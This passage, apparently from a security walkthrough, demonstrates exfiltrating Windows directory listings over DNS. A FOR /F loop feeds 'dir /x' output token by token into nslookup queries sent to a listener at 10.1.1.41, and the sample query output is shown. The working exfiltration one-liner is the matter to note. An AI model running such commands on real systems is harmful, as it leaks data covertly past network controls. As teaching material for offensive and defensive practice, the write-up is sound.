     *** UnKnown can't find 0.File(s).0.bytes......................: Unspecified error
    DNS request timed out.
        timeout was 2 seconds.
    Server:  UnKnown
    Address:  10.1.1.41

    *** UnKnown can't find 2.Dir(s).4,913,123,328.bytes.free.....................: Unspecified error



The reason it fails is because you can't have two `.` in a row in a
valid domain name. I'll fix that by including a single character in
before each token. That way, an empty token will still produce that
character, and I can just remove it on the receiving end.

In the real thing, I'll use the same character for each token, but for
demonstration, I'll show this one with each token having a different
character. I'll show the dir, and then the output from running the loop
over it:



    C:\Users\0xdf\test>dir /x
     Volume in drive C has no label.
     Volume Serial Number is F06E-7663

     Directory of C:\Users\0xdf\test

    02/25/2019  07:04 AM    <DIR>                       .
    02/25/2019  07:04 AM    <DIR>                       ..
                   0 File(s)              0 bytes
                   2 Dir(s)   4,913,123,328 bytes free

    C:\Users\0xdf\test>@echo off & (FOR /F "tokens=1-26" %a IN ('dir /x .') DO ( nsl
    ookup "A%a.B%b.C%c.D%d.E%e.F%f.G%g.H%h.I%i.J%j.K%k.L%l.M%m.N%n.O%o.P%p.Q%q.R%r.S
    %s.T%t.U%u.V%v.W%w.X%x.Y%y.Z%z" 10.1.1.41)) & @echo on
    Server:  UnKnown
    Address:  10.1.1.41

    *** UnKnown can't find AVolume.Bin.Cdrive.DC.Ehas.Fno.Glabel..H.I.J.K.L.M.N.O.P.
    Q.R.S.T.U.V.W.X.Y.Z: Unspecified error
    Server:  UnKnown
    Address:  10.1.1.41

    *** UnKnown can't find AVolume.BSerial.CNumber.Dis.EF06E-7663.F.G.H.I.J.K.L.M.N.
    O.P.Q.R.S.T.U.V.W.X.Y.Z: No response from server
    Server:  UnKnown
    Address:  10.1.1.41

    DNS request timed out.
        timeout was 2 seconds.
    *** UnKnown can't find ADirectory.Bof.CC:\Users\0xdf\test.D.E.F.G.H.I.J.K.L.M.N.
    O.P.Q.R.S.T.U.V.W.X.Y.Z: No response from server
    Server:  UnKnown
    Address:  10.1.1.41

    *** UnKnown can't find A02/25/2019.B07:04.CAM.D<DIR>.E..F.G.H.I.J.K.L.M.N.O.P.Q.
    R.S.T.U.V.W.X.Y.Z: Unspecified error
    Server:  UnKnown
    Address:  10.1.1.41
